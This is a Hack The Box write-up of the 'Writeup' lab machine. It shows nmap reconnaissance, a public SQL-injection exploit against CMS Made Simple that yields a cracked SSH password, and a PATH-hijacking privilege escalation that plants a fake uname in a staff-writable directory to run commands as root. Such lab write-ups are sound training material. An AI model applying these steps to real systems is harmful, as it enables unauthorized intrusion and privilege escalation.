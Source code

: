 ```yaml
---
tags:
  - HacktheBox
  - Linux
  - Easy
  - CMS-Made-Simple
  - SQL-injection
  - binary-hijacking-privesc
  - B2R
aliases:
  - 10.10.10.138
---
```

# Writeup [Easy]

![./attachments/blunder.png](IconTable.png)

***

 ### Improved ability:

- CVE Research
- Source code review
- PATH based privilege escalation

### Used tools:

- nmap
- searchsploit
- pspy64

***



## Introduction & Foothold:

Let's start with a common full **nmap** scan on the box: 

```bash
$ nmap -A 10.10.10.138
```

![[Hackthebox/Lab 1 - Example/Network 1/attachments/1.png]]

The only available ports are the **port 22** (with _OpenSSH 7.4p1_) and the  **port 80**, running _Apache httpd 2.4.25_.
Because of this version of OpenSSH doesn't have known vulnerability,  let's analyse the root and `/writeup/` folder (contained into the _robots.txt_) with a web browser.

Once inside the root, we will prompted with an old-school floppy-disk background and a tips saying that because the site was attacked, it has been implemented a **DoS protection** that potentially can block us from performing brute-force enumeration.

![[Hackthebox/Lab 1 - Example/Network 1/attachments/2.png]]

Let's move analyse the `/writeup/` folder:

![[Hackthebox/Lab 1 - Example/Network 1/attachments/3.png]]

Here we can find some old writeups, but nothing very useful. 
However, looking at the **source code**, we are able to find the first important information: the **CMS type**.

![[Hackthebox/Lab 1 - Example/Network 1/attachments/4.png]]

Now that we know our target use **CMS Made Simple**, we can search online for public exploit.
Suddenly, though the usage of **searchsploit** we found the right script to compromise our target

```bash
$ searchsploit 'cms made simple'
--------------------------------------------------------------------------------------------------------------------
Exploit Title                                                                       | Path 
---------------------------------------------------------------------------------------------------------------------
CMS Made Simple (CMSMS) Showtime2 - File Upload Remote Code Execution (Metasploit)  | exploits/php/remote/46627.rb
CMS Made Simple 0.10 - 'Lang.php' Remote File Inclusion                             | exploits/php/webapps/26217.html
CMS Made Simple 0.10 - 'index.php' Cross-Site Scripting                             | exploits/php/webapps/26298.txt
CMS Made Simple 1.0.2 - 'SearchInput' Cross-Site Scripting                          | exploits/php/webapps/29272.txt
...
CMS Made Simple < 2.2.10 - SQL Injection                                            | exploits/php/webapps/46635.py
```



## Gaining access as jkr

Analysing every record, notice how the **SQL injection exploit** (_46635_) is valid for every version under the 2.2.10.
Download and execute the script!

```bash
$ searchsploi -m 46635
$ python 46635.py -u http://10.10.10.138/writeup/ --crack -w /usr/share/wordlist/rockyou.txt
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

Good! We have the user password. Now we can login into the box as **jkr** and proceeds to the privilege escalation phase.

```bas
$ ssh jkr@10.10.10.138
$ cat /home/jkr/user.txt
d4e493fd4068af...
```



## Privilege Escalation

After looking for a long time for passwords, misconfiguration or other forms of escalation, I decided to take a closer look to every process running on the machine, so I downloaded **pspy** and launched it.

![[Hackthebox/Lab 1 - Example/Network 1/attachments/5.png]]

 After a while, mine attention were caught by these few lines:

```bash
2019/10/11 10:35:58 CMD: UID=0    PID=2279   | sshd: [accepted]
2019/10/11 10:35:58 CMD: UID=102  PID=2280   | sshd: [net]   
2019/10/11 10:36:00 CMD: UID=0    PID=2281   | sh -c /usr/bin/env -i PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin run-parts --lsbsysinit /etc/update-motd.d > /run/motd.dynamic.new     
2019/10/11 10:36:00 CMD: UID=0    PID=2282   | run-parts --lsbsysinit /etc/update-motd.d
2019/10/11 10:36:00 CMD: UID=0    PID=2283   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2284   | /bin/sh /etc/update-motd.d/10-uname
2019/10/11 10:36:00 CMD: UID=0    PID=2285   | sshd: jkr [priv]
```

It seems that every time someone logs in, the `/etc/update-motd.d/10-uname` script is executed.
The contents of the scripts are the following:

```bash
jkr@writeup:/etc/update-motd.d$ cat 10-uname
#!/bin/sh
uname -rnsom
jkr@writeup:/etc/update-motd.d$ uname -rnsom
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux
```

It is clear the script execute a `uname` without using any kind of path, searching the right binary into the **$PATH** variable.

In case we are able to write inside one of the directories contained in $PATH and before the script identifies the original uname binary, _we can run arbitrary code as root and execute our escalation_ (that because the `10-uanme` process run with *UID=0*, so it runs as root)

$PATH contains the following directories:

```bash
jkr@writeup:/home/jkr$ ls -l -d /usr/local/sbin /usr/local/bin /usr/sbin /usr/bin /sbin /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:24 /bin
drwxr-xr-x 2 root root   4096 Apr 19 04:14 /sbin
drwxr-xr-x 2 root root  20480 Apr 24 13:13 /usr/bin
drwx-wsr-x 2 root staff 20480 Jul 10 17:27 /usr/local/bin
drwx-wsr-x 2 root staff 12288 Jul 10 17:23 /usr/local/sbin
drwxr-xr-x 2 root root   4096 Apr 19 07:31 /usr/sbin
```

two of which allow *staff* group users to write into them.

Because jkr is part of the staff group, we are able to create a custom script named *uname* that will be executed in place of the original script once someone logs in.

```bash
jkr@writeup:/etc/update-motd.d$ echo "cat /root/root.txt" > /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ chmod +x /usr/local/sbin/uname
jkr@writeup:/etc/update-motd.d$ exit
root@0xbro:~/Documents/CTF/HTB/Writeup# ssh jkr@10.10.10.138
jkr@10.10.10.138's password:
eeba47f60b48ef92...

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jul 10 17:35:19 2019 from 10.10.15.117
jkr@writeup:~$
```

Once this escalation has been found, it is possible get a reverse shell as root rather than performing other actions as superuser.

Author: 0x*bro*<br>
[![Creative Commons License](https://i.creativecommons.org/l/by-nc/4.0/88x31.png)](http://creativecommons.org/licenses/by-nc/4.0/)<br>
This work is licensed under a [Creative Commons Attribution-NonCommercial 4.0 International License](http://creativecommons.org/licenses/by-nc/4.0/).
